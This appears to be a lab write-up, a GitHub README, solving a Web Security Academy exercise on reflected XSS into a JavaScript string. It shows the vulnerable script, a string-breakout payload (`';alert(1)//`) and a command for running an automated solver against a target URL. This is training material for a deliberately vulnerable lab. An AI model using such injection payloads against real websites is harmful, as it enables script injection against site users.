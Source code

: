# XSS LAB 09 - Reflected XSS into a JavaScript string with angle brackets HTML encoded

## Manual Solution

### 1. Access the Lab
- Open the Web Security Academy lab environment in your browser.

### 2. XSS Test
- Perform a regular search example: 'abc' and push enter.
- Right click and select view page source.
- Find the vulnerable script

### 3. Understanding the vulnerabilty
``` js
<script>
    var searchTerms = 'abc';
    document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');
</script>
```
- This script has a variable named searchterms
- This variable is inside the script tags, which leads to an XSS vulnerability.
- If we escape the quotes we can inject our XSS payload

### 4. Solving the lab
- Search using the following payload `';alert(1)//`
- The searchTerms variable becomes:
```js
    var searchTerms = '';alert(1)//';
```
- An alert pop-up appears.

## Automated Solution

### 1. Download the script
### 2. Run the script with the following command:
```sh
python xss_lab_09.py -u <target_url> -p (if you want to use proxy 127.0.0.1:8080)
```





